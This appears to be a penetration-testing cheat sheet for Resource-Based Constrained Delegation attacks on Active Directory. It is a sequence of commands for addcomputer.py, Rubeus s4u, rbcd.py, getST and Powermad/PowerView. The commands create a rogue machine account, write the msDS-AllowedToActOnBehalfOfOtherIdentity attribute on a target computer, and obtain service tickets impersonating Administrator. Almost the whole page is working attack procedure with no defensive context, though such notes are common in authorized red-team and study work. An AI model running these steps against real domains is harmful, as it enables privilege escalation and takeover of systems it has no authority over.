 # Resource-Based Constrained Delegation (RBCD)

### Object: msDS-AllowedToActOnBehalfOfOtherIdentity

## Tools: rbcd.py , rubeus.exe , getST , addcomputer.py

#### 1) addcomputer.py

 - addcomputer.py -computer-name 'COMPUTER_NAME' -computer-pass 'COMPUTER_PASSWORD' -dc-host DC -domain-netbios DOMAIN_NETBIOS 'DOMAIN/USER:PASSWORD' (Add computer account)

#### 2) Rubeus

 - rubeus.exe hash /password:COMPUTER_PASS /user:COMPUTER /domain:DOMAIN

 - rubeus.exe s4u /user:FAKE_COMPUTER$ /aes256:AES_256_HASH /impersonateuser:administrator /msdsspn:cifs/VICTIM.DOMAIN.LOCAL /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:DOMAIN.LOCAL/ptt (System/Admin access)

#### 3) rbcd.py

 - rbcd.py -delegate-to 'TARGET$' -dc-ip 'DC' -action 'read' 'domain'/'USER':'PASSWORD' (Try to read the attribute)

 - rbcd.py -delegate-from 'COMPUTER$' -delegate-to 'TARGET$' -dc-ip 'DC' -action 'write' DOMAIN/USER:PASSWORD

 - getST.py -spn host/DC_FQDN 'DOMAIN/COMPUTER_ACCOUNT:COMPUTER_PASS' -impersonate Administrator --dc-ip DC_IP (Get TGT ticket)

#### 4) Powermad

 - import-module powermad 

 - New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose (Create a new computer object)

 - Get-DomainComputer fake01 (Check our newly created computer and get its SID)

### Create a new raw security descriptor for the FAKE01 computer principal

 - $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2552734371-813931464-1050690807-1154)"

 - $SDBytes = New-Object byte[] ($SD.BinaryLength)

 - $SD.GetBinaryForm($SDBytes, 0)

### Apply the security descriptor bytes to the target machine

 - Get-DomainComputer TARGET_COMPUTER | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

 - (New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl (Test if the security descriptor assigned to target computer in msds-allowedtoactonbehalfofotheridentity attribute refers to the fake01$ machine. If yes, we shall see the SID of our created computer)

### Then use Rubeus or getST to impersonate an account on our target computer of our choice
